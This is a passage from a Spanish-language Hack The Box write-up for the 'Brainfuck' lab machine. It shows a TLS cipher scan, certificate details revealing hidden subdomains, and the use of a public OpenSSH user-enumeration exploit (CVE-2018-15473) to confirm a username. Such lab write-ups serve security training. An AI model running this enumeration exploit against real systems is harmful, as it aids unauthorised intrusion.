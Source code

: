 ```null
Accepted  TLSv1.1  256 bits  DHE-RSA-AES256-SHA            DHE 1024 bits
Accepted  TLSv1.1  256 bits  DHE-RSA-CAMELLIA256-SHA       DHE 1024 bits
Accepted  TLSv1.1  256 bits  AES256-SHA                   
Accepted  TLSv1.1  256 bits  CAMELLIA256-SHA              
Accepted  TLSv1.1  128 bits  ECDHE-RSA-AES128-SHA          Curve P-256 DHE 256
Accepted  TLSv1.1  128 bits  DHE-RSA-AES128-SHA            DHE 1024 bits
Accepted  TLSv1.1  128 bits  DHE-RSA-CAMELLIA128-SHA       DHE 1024 bits
Accepted  TLSv1.1  128 bits  AES128-SHA                   
Accepted  TLSv1.1  128 bits  CAMELLIA128-SHA              
Preferred TLSv1.0  256 bits  ECDHE-RSA-AES256-SHA          Curve P-256 DHE 256
Accepted  TLSv1.0  256 bits  DHE-RSA-AES256-SHA            DHE 1024 bits
Accepted  TLSv1.0  256 bits  DHE-RSA-CAMELLIA256-SHA       DHE 1024 bits
Accepted  TLSv1.0  256 bits  AES256-SHA                   
Accepted  TLSv1.0  256 bits  CAMELLIA256-SHA              
Accepted  TLSv1.0  128 bits  ECDHE-RSA-AES128-SHA          Curve P-256 DHE 256
Accepted  TLSv1.0  128 bits  DHE-RSA-AES128-SHA            DHE 1024 bits
Accepted  TLSv1.0  128 bits  DHE-RSA-CAMELLIA128-SHA       DHE 1024 bits
Accepted  TLSv1.0  128 bits  AES128-SHA                   
Accepted  TLSv1.0  128 bits  CAMELLIA128-SHA              

  Server Key Exchange Group(s):
TLSv1.2  128 bits  secp256r1 (NIST P-256)

  SSL Certificate:
Signature Algorithm: sha256WithRSAEncryption
RSA Key Strength:    3072

Subject:  brainfuck.htb
Altnames: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
Issuer:   brainfuck.htb

Not valid before: Apr 13 11:19:29 2017 GMT
Not valid after:  Apr 11 11:19:29 2027 GMT
```

Como la versión de SSH es inferior a la 7.7, se puede tratar de validar el anterior usuario para ver si existe en el sistema

```null
searchsploit -m linux/remote/45939.py
  Exploit: OpenSSH < 7.7 - User Enumeration (2)
      URL: https://www.exploit-db.com/exploits/45939
     Path: /usr/share/exploitdb/exploits/linux/remote/45939.py
    Codes: CVE-2018-15473
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/rubbx/Desktop/HTB/Machines/BrainFuck/45939.py

mv 45939.py sshuserenum.py

python2 sshuserenum.py 10.10.10.17 orestis 2>/dev/null
[+] orestis is a valid username

python2 sshuserenum.py 10.10.10.17 orestiiis 2>/dev/null
[-] orestiiis is an invalid username
```
